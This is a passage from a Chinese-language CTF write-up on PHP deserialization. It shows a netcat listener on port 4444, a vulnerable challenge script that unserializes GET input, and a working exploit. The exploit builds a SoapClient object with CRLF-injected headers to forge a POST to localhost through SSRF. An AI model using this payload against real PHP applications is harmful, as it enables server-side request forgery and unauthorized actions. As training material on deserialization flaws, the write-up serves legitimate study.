 kali开启监听`nc -lvp 4444`，执行该文件。【注意开启soap模块】

[![](https://p5.ssl.qhimg.com/t01e1f549149385377f.png)](https://p5.ssl.qhimg.com/t01e1f549149385377f.png)

kali中就会返回监听到的内容

[![](https://p1.ssl.qhimg.com/t0119f9d82ad9c505f9.png)](https://p1.ssl.qhimg.com/t0119f9d82ad9c505f9.png)

### <a class="reference-link" name="%E4%B8%80%E9%81%93CTF%E9%A2%98%E7%9B%AE"></a>一道CTF题目

```
#index.php
&lt;?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip-&gt;getFlag();
#flag.php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1')`{`
    die('error');
`}`else`{`
    $token = $_POST['token'];
    if($token=='ctfshow')`{`
        file_put_contents('flag.txt',$flag);
    `}`
`}`
```

这道题目就是利用的PHP原生类进行反序列化来实现SSRF，因为在这里是没有给出可利用的类，所以就需要使用原生类。<br>
在解答此题的过程中，还需要利用到[CRLF](https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html)，文章很详细，容易理解。<br>
CRLF是`回车 + 换行（\r\n）`的简称，进行url编码后是`%0a%0d%0a%0d`<br>
这道题的思路就是<br>
先利用`ssrf`访问`flag.php`然后post一个数据 `toke=ctfshow`和请求头`X-Forwarded-For` 就能把`flag`写到`flag.txt`中了。<br>
用到`SoapClient`类了。这个类中有个`__call`魔术方法，触发时会调用`SoapClient`类的构造方法。

```
&lt;?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$y = new SoapClient(null,array('location' =&gt; $target,'user_agent'=&gt;'test^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=&gt; "flag"));
$x = serialize($y);
$x = str_replace('^^',"\r\n",$x);
echo urlencode($x);
?&gt;
```
